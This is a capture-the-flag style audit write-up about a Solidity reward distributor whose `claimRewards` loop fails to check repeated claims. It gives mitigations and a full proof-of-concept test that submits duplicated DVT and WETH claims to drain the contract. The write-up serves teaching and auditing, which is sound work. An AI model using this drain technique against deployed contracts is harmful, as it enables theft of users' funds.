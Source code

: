 ## Passing continuous-repeated claims to `claimRewards` allows each claim to be executed without checking or registering if it has already been claimed.

The `claimRewards` function loops through each claim in the `inputClaims` array. Each claim goes through the following conditional statements:
```solidity
///// First if/else block
if (token != inputTokens[inputClaim.tokenIndex]) {
    if (address(token) != address(0)) {
        if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
    }
    token = inputTokens[inputClaim.tokenIndex];
    bitsSet = 1 << bitPosition;
    amount = inputClaim.amount;
} else { 
    bitsSet = bitsSet | 1 << bitPosition; 
    amount += inputClaim.amount;
}

///// second if block
if (i == inputClaims.length - 1) {
    if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
}
```

**Let's evaluate the behavior of these conditionals on each iteration of an array with repeated claims:**
1. It enters the first `if`, but token is `address(0)`, so `_setClaimed` is not executed. The second `if` is not triggered.
2. It enters the `else` block, modifies some variables, but `_setClaimed` is not called. The second `if` is not triggered.


The second iteration is repeated until the last item of the array, when the second `if` is finally triggered, executing `_setClaimed`.

The `_setClaimed` function is in charge of updating the state to register a user's claim. It also returns `false` if the user has already claimed, which causes a revert.

So, with the current logic, if we pass repeated claims, the claim checks are only executed when we reach the last item of the array or when the claim token changes for the next claim in the list.

This means that the corresponding reward will be transferred to the claimant multiple times without checking if it's already claimed, allowing a claimant to take more tokens than planned, leading to fund drainings.

**DEV NOTE:** I think this could be considered a type of reentrancy (maybe an "in-function reentrancy" or "loop reentrancy" or "single-call reentrancy") because it transfers the tokens, and then on the next loop, it "reenters" before the state is updated or checks are performed. So it is violating the CEI pattern: it is Interacting (transferring) to then Check and apply the Effects (ICE) at the end of the transaction. For future audits, look for CEI pattern faults on loops. 

**Recommended mitigation**
- Do not allow repeated claims in the claims array. For example, check for repeated batch numbers and token addresses (the token address, not the index, because repeated tokens can also be passed in the tokens array).
- Execute `_setClaimed` in each loop before the transfer, to update and check if it has already been claimed.

Depending on the effectiveness of each option and the behavior in gas consumption, it might be good to implement one of them or both.

### PoC 
```solidity
    function test_theRewarder() public 
    checkSolvedByPlayer 
    {
        //// Constants and claims
        uint256 claimAmountDVT = 11524763827831882; // took from json
        uint256 claimAmountWeth = 1171088749244340; // took from json
        uint256 leaveIndexDVT = 188; // took from json
        uint256 leaveIndexWeth = 188; // took from json
        bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
        bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

        Claim memory dvtClaim = Claim({
            batchNumber: 0, 
            amount: claimAmountDVT,
            tokenIndex: 0, 
            proof: merkle.getProof(dvtLeaves, leaveIndexDVT)
        });

        Claim memory wethClaim = Claim({
            batchNumber: 0,
            amount: claimAmountWeth,
            tokenIndex: 1, 
            proof: merkle.getProof(wethLeaves, leaveIndexWeth)
        });

        //// Count how many times could we repeat the same claim
        uint256 dvtCount; 
        while (dvtCount*claimAmountDVT < TOTAL_DVT_DISTRIBUTION_AMOUNT) dvtCount++;
        uint256 wethCount; 
        while (wethCount*claimAmountWeth < TOTAL_WETH_DISTRIBUTION_AMOUNT) wethCount++;
        
        // substract 1 cause the while stops AFTER passing the max multiple
        dvtCount--;
        wethCount--;

        //// creating claims array
        Claim[] memory claims = new Claim[](dvtCount+wethCount);

        for(uint256 i = 0; i<claims.length; i++){
            if(i<dvtCount) claims[i] = dvtClaim;
            else claims[i] = wethClaim;
        }

        ///// Set DVT and WETH as tokens to claim
        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

        //// Claim
        distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

        // transfer to recovery
        dvt.transfer(recovery, dvt.balanceOf(player));
        weth.transfer(recovery, weth.balanceOf(player));
    }
```